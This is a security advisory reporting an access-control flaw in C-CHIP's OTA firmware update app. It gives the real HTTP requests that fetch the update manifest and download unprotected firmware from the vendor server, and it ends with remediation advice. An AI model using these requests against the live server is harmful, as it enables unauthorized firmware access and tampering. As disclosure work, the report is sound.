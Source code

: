 # Vulnerability Report - com.cchip.cchipamaota- Incorrect Access Control

**Product:** `com.cchip.cchipamaota` 

**Vendor:** [C-CHIP](http://www.c-chip.com.cn/english/)

**Version:** 1.2.8

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.cchip.cchipamaota` , developed by C-CHIP, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `URL_GET_3266` String value in the `Constants` class provides the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241002231411105](https://s2.loli.net/2024/10/02/ImyZbFrVCtNgTKh.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/update.json HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

   > Response:

   ```http
   HTTP/1.1 200
   Accept-Ranges: bytes
   ETag: W/"4657-1602659827000"
   Last-Modified: Wed, 14 Oct 2020 07:17:07 GMT
   Content-Type: application/json
   Content-Length: 4657
   Date: Wed, 02 Oct 2024 15:03:18 GMT
   
   {
       "updates": [
         {
           "device": "XZX",
           "build": "1362456405",
           "version": "1003",
           "file": [
               "/XZX/XZX_V1003_H1.bin",
               "/XZX/XZX_V1003_H2.bin"
           ],
           "description":"for test",
           "md5":"1506e35363c5f59cb7cde3ea0af83859"
         },
        {
           "device": "GGMMW1A",
           "build": "1562829949",
           "version": "1004",
           "file": [
               "/GGMMW1A/GGMMW1A_V1004_H1.bin",
               "/GGMMW1A/GGMMW1A_V1004_H2.bin"
           ],
           "filesize": [
               "1040384",
               "1040384"
           ],
           "description": "Modified SPP display name",
           "md5": "1506e35363c5f59cb7cde3ea0af83859"
        },
        ......
   ```

   Then, contact the `file` with `https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA/`, we can access the firmware directly.

   ```HTTP
   GET https://otaus.ccsmart.com.cn:8443/CCHIP_AMA_OTA//GGMMW1A/GGMMW1A_V1004_H1.bin HTTP/1.1
   Host: otaus.ccsmart.com.cn:8443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241002231350187](https://s2.loli.net/2024/10/02/LpJTuyxVoQjEBYO.png)


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.